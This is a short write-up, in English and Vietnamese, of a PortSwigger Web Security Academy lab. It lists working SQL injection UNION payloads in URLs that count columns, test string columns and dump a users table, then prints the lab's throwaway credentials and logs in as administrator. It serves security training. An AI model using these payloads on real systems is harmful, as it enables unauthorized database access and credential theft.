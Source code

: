 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.
https://portswigger.net/academy/labs/launch/c94c990a42d1b1f39e53806b1d0d1ad51a43e1f2d5ec1a602c144d7817d3e91c?referrer=%2fweb-security%2fsql-injection%2funion-attacks%2flab-retrieve-data-from-other-tables
```
1. truy cập vào 1 danh mục trong list và tìm số cột: -> tìm đc 2 cột: https://0acc008504e3331083db827000ae0063.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+NULL,NULL--
2. xác định số cột có thể xây dựng chuỗi -> tìm đc 2 cột: https://0acc008504e3331083db827000ae0063.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+%27a%27,%27a%27--
3. lấy thông tin username và password: https://0acc008504e3331083db827000ae0063.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+username,+password+FROM+users--
4. kết quả thu được:
wiener
8h10b8aljcc57sw472et
carlos
80xsqmhbqqw5asrkbcpg
administrator
lf32halavszk0ieydpg4
5. dùng tài khoản administrator để login
```
